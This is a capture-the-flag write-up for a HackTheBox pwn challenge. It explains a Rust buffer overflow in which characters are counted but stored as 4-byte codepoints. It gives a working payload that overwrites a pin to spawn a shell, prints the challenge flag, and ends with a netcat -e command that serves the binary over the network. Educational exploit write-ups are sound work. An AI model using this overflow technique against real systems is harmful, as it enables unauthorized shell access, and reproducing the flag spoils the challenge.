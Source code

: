 ## Oxidized-ROP

https://app.hackthebox.com/challenges/Oxidized%20ROP

This PWN starts off seeming easily straightforward, then overly difficult (ROP + Unicoding pointers), then easy again once you figure out you wasted a weekend testing something you were absolutely certain about despite having **ZERO** prior experience in Rust.

### Overview

So as you can see by the title of this PWN, "ROP" means return oriented programming. 

<details>
  <summary>Quick disclaimer</summary>
  
  I have no actual experience with ROP exploits.
</details>

<details>
  <summary>Another quick disclaimer</summary>

  This PWN is not actually a ROP. 
  
  Yeah. 
  
  I don't know why the author titled it this. 
  There exists another vulnerability much easier to exploit. 
  I started Googling and learning all about ROP, but 
  never got to use it. Very anticlimactic...
</details>

<details>
  <summary>TLDR; Payload and flag</summary>
  
  Input this payload into the 'Complete survey' panel:
  ```
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA𞉀
  ```
  The flag:
  ```
  HTB{7h3_0r4n63_cr4b_15_74k1n6_0v3r!}
  ```
</details>

### Reconnaissance

I started off by looking through the provided `oxidized-rop.rs` file.

The only thing I knew about Rust prior to this are the insane 
safety features, namely `unsafe` code.

At line 48 is an unsafe block. The code checks that the 
argument string is less than 200 characters (not bytes).

```{r, attr.source='.numberLines startFrom="40"'}
fn save_data(dest: &mut [u8], src: &String) {
    if src.chars().count() > INPUT_SIZE {
        println!("Oups, something went wrong... Please try again later.");
        std::process::exit(1);
    }

    let mut dest_ptr = dest.as_mut_ptr() as *mut char;

    unsafe {
        for c in src.chars() {
            dest_ptr.write(c);
            dest_ptr = dest_ptr.offset(1);
        }
    }
}
```

The `save_data(dest: &mut [u8], src: &String)` function is
called by `present_survey(feedback: &mut Feedback)`:

```{r, attr.source='.numberLines startFrom="69"'}
fn present_survey(feedback: &mut Feedback) {
    // ...
    print!("Statement (max 200 characters): ");
    io::stdout().flush().unwrap();
    let input_buffer = read_user_input();
    save_data(&mut feedback.statement, &input_buffer);
    // ...
}
```

The `Feedback` structure contains an array of 200 bytes:

```{r, attr.source='.numberLines startFrom="3"'}
const INPUT_SIZE: usize = 200;
const PIN_ENTRY_ENABLED: bool = false;

struct Feedback {
    statement: [u8; INPUT_SIZE],
    submitted: bool,
}
```

Both of `INPUT_SIZE` and `PIN_ENTRY_ENABLED` are const; there are
no means to modify them regardless of exploit. 

As you can see, the `Feedback` structure utilizes bytes, 
however the `save_data(dest: &mut [u8], src: &String)` function
checks for `characters`. This will cause a buffer overflow if
the UTF-8 encoded byte count of the survey input exceeds 200 characters 
(or 800 bytes).

In a basic sense, a stack frame, in order of increasing memory address,
is arranged as such:
- Local variables (Relative positions are tied with their order of declaration)
- Return addresses

We can expect something similar to this with our Rust program:
- 200 bytes for survey array
- 1 boolean for submitted
- 4-bytes for login pin
- Return addresses

```{r, attr.source='.numberLines startFrom="125"'}
let mut feedback = Feedback {
    statement: [0_u8; 200],
    submitted: false,
};
let mut login_pin: u32 = 0x11223344;
```

This, of course, is not the exact layout (as we'll find out in a 
minute).

### Debugging

I'll be using a Kali VM to debug this program. 

Open the program with EDB `edb --run oxodized-rop`.

I'm not going to go through the specifics, but I set a breakpoint 
immediately after the stack address for the local variable `login_pin`
was set to `0x11223344` during its definition in `main()`:
![text](stack_starting_pin.png).

I did a symbol search for `savedata`, and set a breakpoint 
at the last return of the function,
right after the stack was modified. I continue execution. 

In the console input, I inputted `1` for the survey. 

Generate a pattern with 
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
to understand how our input is transformed and overflows:
![text](create_pattern.png)

I pass the generated pattern through the EDB console (a program 
started from the command line with EDB easily allows for console input).

After submitting, the breakpoint triggers, and this is the result:

![text](stack_patterned_pin.png)

This is the point where I began the journey to lose my mind
over the span of a weekend.

I was confused as of why every thing was 4-byte aligned.

I looked at the code, and ***assumed*** that the Rust code
was converting everything to UTF-encoded bytes. In
retrospect, I realize that the inputted characters, UTF-8
characters, were being converted to Unicode codepoints,
basically the ID of the Unicode character.

For some reason `pattern_offset` was unable to locate the offset,
but I easily found the offset to be 122, where the next 4-byte
integer is our pin location.

I started doing tests, such as inputting UTF-8 characters, 
and wondering why there were no signs of UTF-8 bytes anywhere
in the overflowed buffer.

This is where I Googled "Oxidized ROP writeup". The keyword
`ROP` brought up some specific exploits, so I figured this was
the way to do it, with an ROP exploit. I started learning about
ROP exploits, stack manipulation, return pops, ROP gadgets...

Near the end I was getting very angery, so decided to 
ask phind model what was up. I fed it my results of some of 
the stack manipulation, asking why the inputted UTF-8 characters 
were giving these weird but consistent values. It told me 
Unicode codepoints. 

With this sliver of hope, I test a specific payload containing
2 UTF-8 characters near the end (`€ƒ`):
```
a_b.c_d.e_f.g_h.i_j.k_l.m_n.o_p.q_r.s_t.u_v.w_x.y_z.A_B.C_D.E_F.G_H.I_J.K_L.M_N.O_P.Q_R.S_T.U_V.W_X.Y_Za,b.c,d.e,f.g,h.i,j€ƒ
```
I used this website to test characters https://unicode.scarfboy.com/?s=%E2%82%AC%C6%92
![text](unicode_page.png)

![text](stack_unicoded_pin.png)

Sure enough, they matched.

### Weaponization

With this knowledge, I now needed to overwrite the
pin value with 123456 as required by the config function:
```{r, attr.source='.numberLines startFrom="3"'}
fn present_config_panel(pin: &u32) {
    use std::process::{self, Stdio};
    
    // the pin strength isn't important since pin input is disabled
    if *pin != 123456 {
        println!("Invalid Pin. This incident will be reported.");
        return;
    }
    
    process::Command::new("/bin/sh")
        .stdin(Stdio::inherit())
        .stdout(Stdio::inherit())
        .output()
        .unwrap();
    }
}
```
I need the codepoint for decimal represented `123456`, in hex is
`1E240`.

Searching for U+1E240 on the page brings up this:

I copy the character and prepare my new payload:

![text](123456_unicode_page.png)

I paste this payload into the survey:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA𞉀
```

Then input 2 to take me to the "config". 

Then do `la -la`:

![text](self_pwned.png)

PWNED. 

Given this is my own VM, it's time to write a Python script to 
do this automatically on the remote HTB server.

### Exploitation

I decided to test things in a backwards sort-of way,
with a Python script that acts as the server on
my Windows machine, and Netcat on Kali as the client.

Make sure your interfaces are correct (I did host-only on VMnet1).
I ran the Python script first, then started the client:
`nc -e /home/kali/oxidized/oxidized-rop 192.168.190.1 2463`


